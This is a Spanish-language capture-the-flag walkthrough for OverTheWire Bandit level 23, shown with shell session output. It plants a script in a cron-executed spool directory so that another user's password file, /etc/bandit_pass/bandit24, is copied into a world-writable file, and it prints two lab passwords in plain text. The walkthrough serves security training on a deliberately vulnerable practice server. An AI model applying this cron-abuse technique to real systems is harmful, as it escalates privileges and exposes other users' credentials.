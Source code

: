 # Level 23--24
## Objetivo
Un programa se ejecuta automáticamente a intervalos regulares desde **cron** , el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y vea qué comando se está ejecutando.

**NOTA:** Este nivel requiere que cree su propio primer script de shell. ¡Este es un gran paso y deberías estar orgulloso de ti mismo cuando superes este nivel!

**NOTA 2:** Tenga en cuenta que su script de shell se elimina una vez ejecutado, por lo que es posible que desee conservar una copia...

```
Server    : bbandit23@bandit.labs.overthewire.org
Password  : QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
## Solución
```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220

bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
mkdir: cannot create directory ‘/tmp/kd’: File exists
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls –la
ls: cannot access '–la': No such file or directory
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls –la
ls: cannot access '–la': No such file or directory
bandit23@bandit:/tmp/kd$ date
Wed Sep 20 05:26:12 AM UTC 2023
bandit23@bandit:/tmp/kd$ ls –la
ls: cannot access '–la': No such file or directory
bandit23@bandit:/tmp/kd$ ls -la
total 10568
drwxrwxr-x    2 bandit23 bandit23     4096 Sep 18 16:25 .
drwxrwx-wt 1827 root     root     10801152 Sep 20 05:26 ..
-rw-rw-rw-    1 bandit23 bandit23       33 Sep 20 05:26 password
-rwxrwxr-x    1 bandit23 bandit23       49 Sep 20 05:25 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$
```
## Notas adicionales
| Comando | Descripción |
|---------|-------------|
|ls| lista de los archivos en la carpeta actual|
|cd/| me lleva al directorio raíz|
|cat| se utiliza para concatenar y mostrar el contenido de uno o varios archivos en la salida estándar |
|file| se utiliza para determinar el tipo de archivo mediante su contenido |
|du| se utiliza para mostrar el uso del espacio en disco por archivos y directorios  |
|find| se utiliza para buscar archivos y directorios en una jerarquía de directorios determinada   |
|-a| no ignora los archivos que comienzan con .|
|-l| hacer un listado largo de archivos|
|grep| e utiliza para buscar patrones de texto en archivos o en la salida de otros comandos. |
|man| comando que se utiliza para acceder a las páginas del manual (manuales) que proporcionan documentación detallada sobre diversos comandos, utilidades y funciones del sistema.|
|sort| se utiliza para ordenar líneas de texto en orden alfabético o numérico.|
|uniq| se utiliza para eliminar o mostrar líneas duplicadas consecutivas en un archivo de texto o en la entrada estándar.|
|strings| se utiliza para extraer y mostrar las cadenas de texto legibles en archivos binarios.|
|base64| se utiliza para codificar y decodificar datos en formato base64. Base64 es un sistema de codificación que convierte datos binarios en una representación de texto compuesta por caracteres ASCII imprimibles. |
|tr| se utiliza para realizar transformaciones de caracteres en texto. |
|tar| se utiliza para crear, visualizar, extraer y manipular archivos de formato tar, que son comunes en sistemas basados en Unix |
|gzip| se utiliza para comprimir y descomprimir archivos utilizando el algoritmo de compresión GZIP|
|bzip2| se utiliza para comprimir y descomprimir archivos utilizando el algoritmo de compresión BZIP2. Al igual que GZIP, BZIP2 es un algoritmo de compresión que reduce el tamaño de los archivos para ahorrar espacio en disco y mejorar la eficiencia en la transferencia de datos. |
|xxd| se utiliza para mostrar o crear representaciones hexadecimales y ASCII de archivos binarios. |
| mkdir | Se utiliza para crear directorios o carpetas|


## Referencias